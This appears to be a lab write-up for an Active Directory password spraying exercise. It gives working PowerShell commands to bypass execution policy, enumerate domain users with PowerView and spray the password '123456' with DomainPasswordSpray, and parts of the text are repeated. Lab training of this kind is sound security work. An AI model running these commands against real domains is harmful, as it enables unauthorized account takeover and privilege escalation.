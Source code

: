 Your task is to perform a password spraying attack aiming to identify weak passwords, which could potentially provide you with escalated privileges, even up to the level of domain admin access.

**Objective**: Execute a password spraying attack to discover weak passwords within the Active Directory.

Below are the tasks that you need to perform:
1. Identify all the users in the domain.
2. Initiate the Password Spraying Attack.
3. Execution and Verification of the Password Spraying Attack.

#### Lab Solution

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\PowerView.ps1`: to import the [PowerView module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

`Get-DomainUser | Select-Object -ExpandProperty cn | Out-File "$HOME\Desktop\domain_users.txt"`: to enumerate the domain users, extracting their common names in a file.
(Using PowerView to get a list of all domain users and saving their common names to a text file on the desktop for later use.)

`cd C:\Tools\Scripts\credentials`, `Import-Module .\DomainPasswordSpray.ps1`:  to import the [DomainPasswordSpray module](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1).

`Invoke-DomainPasswordSpray -UserList "$HOME\Desktop\domain_users.txt" -Password "123456" -Verbose`: to perform a password spraying attack.
(Initiating a password spraying attack using the list of domain users and the common password "123456", while displaying detailed output to monitor the process.)

### Password Spraying - Lab

#### Lab Environment

In this lab environment, GUI access to a Domain User called Research/Student on a Windows Server 2012 machine, which serves as your workstation. This workstation contains vulnerabilities that are susceptible to password spraying attacks - a common method for guessing passwords that often yield results due to the habitual use of simple and predictable passwords within the Active Directory setup.

Your task is to perform a password spraying attack aiming to identify weak passwords, which could potentially provide you with escalated privileges, even up to the level of domain admin access.

**Objective**: Execute a password spraying attack to discover weak passwords within the Active Directory.

Below are the tasks that you need to perform:
1. Identify all the users in the domain.
2. Initiate the Password Spraying Attack.
3. Execution and Verification of the Password Spraying Attack.

The best tools for this lab are:
- PowerView.ps1
- DomainPasswordSpray.ps1

#### Lab Execution
